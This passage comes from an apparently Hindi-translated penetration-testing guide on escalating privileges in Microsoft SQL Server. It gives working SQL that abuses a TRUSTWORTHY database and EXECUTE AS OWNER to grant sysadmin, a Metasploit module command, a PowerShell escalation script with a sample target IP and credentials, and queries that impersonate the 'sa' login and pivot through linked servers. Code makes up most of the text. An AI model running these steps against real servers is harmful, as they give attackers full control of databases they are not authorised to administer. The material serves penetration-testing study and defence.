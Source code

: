 ```sql
USE <trustworthy_db>

CREATE PROCEDURE sp_elevate_me
WITH EXECUTE AS OWNER
AS
EXEC sp_addsrvrolemember 'USERNAME','sysadmin'

--2. Execute stored procedure to get sysadmin role
USE <trustworthy_db>
EXEC sp_elevate_me

--3. Verify your user is a sysadmin
SELECT is_srvrolemember('sysadmin')
```
आप **metasploit** मॉड्यूल का उपयोग कर सकते हैं:
```bash
msf> use auxiliary/admin/mssql/mssql_escalate_dbowner
```
या एक **PS** स्क्रिप्ट:
```powershell
# https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/MSSQL/Invoke-SqlServer-Escalate-Dbowner.psm1
Import-Module .Invoke-SqlServerDbElevateDbOwner.psm1
Invoke-SqlServerDbElevateDbOwner -SqlUser myappuser -SqlPass MyPassword! -SqlServerInstance 10.2.2.184
```
### अन्य उपयोगकर्ताओं का अनुकरण

SQL Server में एक विशेष अनुमति है, जिसका नाम **`IMPERSONATE`** है, जो **कार्यरत उपयोगकर्ता को किसी अन्य उपयोगकर्ता** या लॉगिन की अनुमतियों को अपनाने की **अनुमति देती है** जब तक कि संदर्भ को रीसेट नहीं किया जाता या सत्र समाप्त नहीं होता।
```sql
# Find users you can impersonate
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
# Check if the user "sa" or any other high privileged user is mentioned

# Impersonate sa user
EXECUTE AS LOGIN = 'sa'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')

# If you can't find any users, make sure to check for links
enum_links
# If there is a link of interest, re-run the above steps on each link
use_link [NAME]
```
{% hint style="info" %}
यदि आप किसी उपयोगकर्ता की नकल कर सकते हैं, भले ही वह sysadmin न हो, तो आपको यह जांचना चाहिए कि **क्या उपयोगकर्ता को अन्य **databases** या लिंक किए गए सर्वरों तक पहुंच है**।
{% endhint %}
